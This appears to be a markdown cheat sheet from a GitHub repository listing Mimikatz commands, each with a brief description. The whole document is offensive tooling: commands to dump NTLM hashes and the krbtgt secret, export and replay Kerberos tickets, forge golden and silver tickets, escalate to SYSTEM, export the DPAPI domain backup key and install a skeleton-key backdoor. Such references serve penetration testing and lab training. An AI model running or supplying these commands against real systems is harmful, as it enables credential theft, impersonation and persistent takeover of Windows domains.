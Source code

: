 # MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### privilege::debug = Shows privileges on machine ( Ensure output is "20 OK")

### sekurlsa::tickets /export = Exports all .kirbi tickets to current directory

### kerberos::ptt TICKET = It will cache and impersonate the given ticket we harvested earlier (Pass-the-Ticket)

### klist = List our cached tickets

### token::elevate/revert = Impersonate SYSTEM

### lsadump::lsa /inject /name:krbtgt = Dumps the hash as well as the security identifier needed to create a golden ticket

### lsadump::lsa /inject /name:DOMAIN_ADMIN/SERVICE_ACCOUNT = Silver Ticket

### kerberos::golden /user:Administrator /domain:CONTROLLER.LOCAL /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:ID

### misc::cmd = Elevates command prompt with the given ticket

### misc::skeleton = Skeleton key (Kerberos Backdoor) (Default credentials: mimikatz)

### lsadump::lsa /patch = NTLM hashes dump

### lsadump::backupkeys /system:localhost /export (Exports DPAPI Domain Backup Key from Domain Controller. VERY IMPORTANT!!!!)

### kerberos::ptc C:\temp\TGT_Administrator@lab.local.ccache (Replay kerberos ticket)
